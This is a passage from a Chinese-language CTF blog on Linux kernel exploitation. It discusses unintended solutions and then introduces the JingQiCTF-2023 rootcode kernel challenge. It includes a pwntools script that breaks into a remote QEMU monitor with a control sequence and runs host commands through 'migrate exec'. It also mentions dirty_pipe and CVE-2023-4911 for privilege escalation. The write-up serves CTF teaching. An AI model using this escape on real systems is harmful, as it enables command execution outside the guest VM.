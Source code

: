 > 其实 core 这道题还可以用 `dirty_pipe` 去写 busybox 实现利用\[4\]，关于标准解法也在这篇文章中。

### qemu 参数问题

最近没怎么见到了，前几年用 qemu 的题倒是很常见：即启动脚本中，qemu 都没有关 monitor（-monitor /dev/null），所以可以直接发送控制字符组合 `b"\x01c"`，使得远程的 qemu 进入 monitor 模式，然后即可执行 qemu 外的系统命令：

例如某次华为杯的嵌入式题全都被这样非预期了：

```python
from pwn import *
context(log_level='debug')

io = remote("remoteIP", remotePORT)
io.send(b"\x01c")
sleep(1)
io.sendline(b"")
io.sendlineafter("(qemu) ",'migrate "exec: strings /rootfs.img | grep flag"')
io.interactive()
```

### CVE

CVE 带来的非预期在 kernel 题中比较少见，因为出题人往往会用较新的内核版本，但是在其他题目中可能存在（包括但不仅限于 Kernel CVE），此前在某场 AWD 比赛中笔者就使用 [CVE-2023-4911](CVE-2023-4911) 实现了提权。

由于 CVE 带来的非预期解往往存在时效性，在此不多赘述。

---

# 内核漏洞提权

> 开场白环节至此结束，接下来正式进入内核漏洞的利用部分。

Kernel 漏洞的挖掘，**大部分** CTF 题目都是在对内核模块（Loadable Kernel Modules, LKMs）进行漏洞挖掘，其文件格式和用户态的可执行程序相同（ELF）。模块通常用来实现一种文件系统、一个驱动程序或者其他内核上层的功能。

Kernel 中的漏洞如何导致提权？通俗来讲，kernel 中的模块运行在更高的权限层级下，用户态程序通过系统调用来与其交互（包括 ioctl），若其中存在漏洞就可以由用户构造出特殊的操作劫持内核的控制流，来实现某种高权限的操作（包括修改用户态程序进程结构体 `cred struct` 改变权限）。

## Chal-0x02: JingQiCTF-2023-rootcode

> 这是一道来自 2023 年首届京麒杯的签到内核题（用于开启 soloCTF），但是现场选手们都做太慢了以至于主办方不得不现场放出另一道签到题。

- [attachments](https://drive.google.com/file/d/1p1eO0HjQaRYn321xAnPsL-dl3i66hUyA/view?usp=sharing)

### Analysis

作为系列博客中的第一道正式例题，先介绍一些基本操作：

对于内核题目，往往会给出以下三个文件：

- `bzImage`：压缩过的内核镜像，可以使用 [vmlinux-to-elf](https://github.com/marin-m/vmlinux-to-elf) 还原为可导入 ida 的 vmlinux 内核镜像，恢复部分符号。当然也可以本地重新编译一份带符号表的镜像。
